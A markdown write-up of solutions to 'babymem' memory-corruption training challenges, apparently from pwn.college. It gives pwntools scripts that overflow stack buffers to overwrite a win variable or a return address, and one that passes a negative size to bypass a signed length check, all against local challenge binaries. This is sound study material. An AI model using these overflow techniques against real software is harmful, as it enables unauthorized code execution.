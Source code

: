 # Pwn Beby mem

## 1.0 - 1.1
```py
from pwn import *                       
                                        
padding = b'A' * 176                    
payload = padding + p64(0x2dbba028)     
                                        
p = process('/challenge/babymem_level1.0')         
p.recvuntil('size:')                    
p.sendline('120')                       
                                       
p.recvuntil('bytes)!')                  
p.send(payload)                         
p.interactive() 
```

## 2.0 2.1
```py
from pwn import *                       
                                        
padding = b'A' * 528                    
payload = padding + p64(0xdeadbeef)     
                                        
p = process('/challenge/babymem_level2.0')         
p.recvuntil('size:')                    
p.sendline('530')                       
                                       
p.recvuntil('bytes)!')                  
p.send(payload)                         
p.interactive() 
```
Task: You can make this variable be non-zero by overflowing the input buffer.
The "win" variable is stored at 0x55c46aa5e8c0, 528 bytes after the start of your input buffer.

## 3.0 
```py
from pwn import *                       
                                        
padding = b'A' * 104                   
payload = padding + p64(0x4018d1) # win address
                                        
p = process('/challenge/babymem_level3.0')         
p.recvuntil('size:')                    
p.sendline('120')                       
                                       
p.recvuntil('bytes)!')                  
p.send(payload)                         
p.interactive() 
```
Task:
You will need to force the program to execute the win() function
by directly overflowing into the stored return address back to main,
which is stored at 0x7ffe6e8fec28, 104 bytes after the start of your input buffer.
That means that you will need to input at least 112 bytes (73 to fill the buffer,
31 to fill other stuff stored between the buffer and the return address,
and 8 that will overwrite the return address).

## 3.1
used gdb to locate buffer size from `challange` and `win` address

## 4.0
Task: In this level, there is no "win" variable.
You will need to force the program to execute the win() function
by directly overflowing into the stored return address back to main,
which is stored at 0x7ffe4e15aa08, 88 bytes after the start of your input buffer.
That means that you will need to input at least 96 bytes (66 to fill the buffer,
22 to fill other stuff stored between the buffer and the return address,
and 8 that will overwrite the return address).

```py
from pwn import *                       
                                        
padding = b'A' * 88                   
payload = padding + p64(0x401818)     
                                        
p = process('/challenge/babymem_level4.0')         
p.recvuntil('size:')                    
p.sendline('-66')  #jns jump if not signed (positive)                       
                                       
p.recvuntil('bytes)!')                  
p.send(payload)                         
p.interactive() 
```

## 4.1 
search jump address to `win`

## 6.0 - 6.1
Task: search `win_a...` function address using gdb `info func`, find `print` address and jump to it 